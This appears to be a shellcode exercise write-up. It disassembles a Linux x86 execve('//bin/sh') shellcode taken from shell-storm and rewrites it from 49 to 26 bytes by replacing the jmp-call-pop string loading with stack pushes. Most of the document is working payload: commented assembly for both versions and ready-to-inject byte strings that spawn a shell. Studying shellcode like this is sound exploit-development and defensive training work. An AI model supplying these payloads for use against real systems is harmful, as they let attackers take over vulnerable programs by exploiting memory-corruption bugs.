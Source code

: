 # Execve

[http://shell-storm.org/shellcode/files/shellcode-863.php](http://shell-storm.org/shellcode/files/shellcode-863.php)


# Disassembly

Here I have commented on the high level functionality of the shellcode.


```x86asm
global _start

section .text
global _start

section .text
_start:
    jmp short here

me:
    ; pop esi
    ; mov edi,esi
    pop edi

    xor eax,eax
    push eax    ; push 0x0    
    mov edx,esp
    
    push eax    ; push 0x0
    add esp,3   ; jump over edx
    ; lea esi,[esi +4]
    lea esi,[edi +4]    ; load string to stack "n/sh"
    xor eax,[esi]
    push eax    
    xor eax,eax
    xor eax,[edi]   ; load string to stack "//bi"
    push eax
    mov ebx,esp 

    xor eax,eax     ; again push "//bin/sh" to stack, load into ecx for argument
    push eax
    lea edi,[ebx]
    push edi
    mov ecx,esp

    mov al,0xb      ; execve()
    int 0x80

here:
    call me
    path db "//bin/sh"

```

Shellcode (length: 49 bytes)

```c
"\xeb\x23\x5f\x31\xc0\x50\x89\xe2\x50\x83\xc4\x03\x8d\x77\x04\x33\x06\x50\x31\xc0\x33\x07\x50\x89\xe3\x31\xc0\x50\x8d\x3b\x57\x89\xe1\xb0\x0b\xcd\x80\xe8\xd8\xff\xff\xff\x2f\x2f\x62\x69\x6e\x2f\x73"
```


# Changes

First, I remove the jmp, call, pop technique instructions that gets a pointer to the string "//bin/sh" as I will be pushing it to the stack later. 

I then push the string to the stack with the following instructions instead of moving the data as the original shellcode did using `lea`.

The commented code is what was removed from the original and replaced with my instructions.

```x86asm
; push eax            ; load "//bin/sh" to stack
; add esp,3
; lea esi,[esi +4]
; xor eax,[esi]
; push eax
; xor eax,eax
; xor eax,[edi]
; push eax
; mov ebx,esp 
push eax
push 0x68732f6e         ; "hs/n"
push 0x69622f2f         ; "ib//"
mov ebx, esp
```

Next, I also change the way the second argument is loaded onto the stack by leveraging the ebx pointer to the string "//bin/sh". To do this, I just push a null `eax` which doesn't have to be `xor`'d since it was not touched in my previous instructions. Then push the pointer to "//bin/sh" that is currently in `ebx` and move this pointer to `ecx`.
```x86asm
; xor eax,eax
; push eax
; lea edi,[ebx]
; push edi
; mov ecx,esp
push eax
push ebx
mov ecx, esp
```



# Completed Shellcode

```x86asm
global _start

section .text
_start:
    ; jmp short here

me:
    ; pop esi
    ; mov edi,esi
    
    xor eax,eax     ; push ptr to 0x0 to stack for edx argument 
    push eax
    mov edx,esp    

    ; push eax            ; load "//bin/sh" to stack
    ; add esp,3
    ; lea esi,[esi +4]
    ; xor eax,[esi]
    ; push eax
    ; xor eax,eax
    ; xor eax,[edi]
    ; push eax
    ; mov ebx,esp 
    push eax
    push 0x68732f6e         ; "hs/n"
    push 0x69622f2f         ; "ib//"
    mov ebx, esp


    ; xor eax,eax
    ; push eax
    ; lea edi,[ebx]
    ; push edi
    ; mov ecx,esp
    push eax
    push ebx
    mov ecx, esp


    mov al,0xb      ; execve()
    int 0x80

; here:
;     call me
;     path db "//bin/sh"
```

New Shellcode (Length: 26)

```c
"\x31\xc0\x50\x89\xe2\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"
```